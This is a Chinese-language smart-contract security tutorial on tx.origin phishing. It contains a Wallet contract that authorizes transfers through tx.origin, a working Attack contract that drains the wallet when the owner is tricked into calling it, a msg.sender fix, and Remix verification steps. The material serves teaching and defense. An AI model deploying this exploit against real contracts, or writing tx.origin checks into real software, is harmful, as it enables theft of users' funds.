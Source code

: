 # 73.Phishing with tx.origin
## msg.sender和tx.origin有什么区别？
如果合约A调用B，B调用C，在C中msg.sender是B，tx.origin是A。

## 漏洞
恶意合约可以欺骗合约所有者调用只有所有者才能调用的函数。


Wallet是一个简单的合约，只有所有者才能将转移到另一个地址。
Wallet.transfer()使用tx.origin来检查调用者是否为所有者。
让我们看看如何攻击这个合约。


1. Alice部署Wallet并存入10个以太
2. Eve部署Attack并传入Alice的Wallet合约地址
3. Eve欺骗Alice调用Attack.attack()
4. Eve成功从Alice的钱包中窃取了以太

发生了什么？
Alice被欺骗调用Attack.attack()。在Attack.attack()内部，它请求将Alice钱包中的所有资金转移到Eve的地址。
由于Wallet.transfer()中的tx.origin等于Alice的地址，它授权了转移。钱包将所有以太转移到了Eve。

### 钱包合约
部署钱包合约，包含一个owner状态变量用于记录合约的拥有者，包含一个构造函数和一个public函数：
* 构造函数: 在创建合约时给owner变量赋值.
* transfer(): 该函数会获得两个参数_to和_amount，先检查tx.origin == owner，无误后再给_to转账_amount数量的ETH。注意：这个函数有被钓鱼攻击的风险！
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### 共计合约

它的攻击逻辑非常简单，就是构造出一个attack()函数进行钓鱼，将银行合约拥有者的余额转账给黑客。它有2个状态变量owner和wallet，分别用来记录黑客地址和要攻击的钱包合约地址。

它包含2个函数：

* 构造函数:初始化wallet合约地址.
* attack()：攻击函数，该函数需要钱包合约的owner地址调用，owner调用攻击合约，攻击合约再调用钱包合约的transfer()函数，确认tx.origin == owner后，将银行合约内的余额全部转移到黑客地址中。

```solidity

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
### 预防技术
使用msg.sender代替tx.origin

```solidity
function transfer(address payable _to, uint256 _amount) public {
    require(msg.sender == owner, "Not owner");

    (bool sent, ) = _to.call{ value: _amount }("");
    require(sent, "Failed to send Ether");
}
```

## remix验证
1. 署Wallet合约并转入10 eth
![73-1.jpg](./img/73-1.jpg)
2. 部署attack合约传入Wallet合约地址为参数，调用attack合约，可以看到，盗取了eth
![73-2.jpg](./img/73-2.jpg)
3. 尝试使用msg.sender代替tx.origin，同样的方式用attack合约攻击，验证可看到攻击失败
![73-3.jpg](./img/73-3.jpg)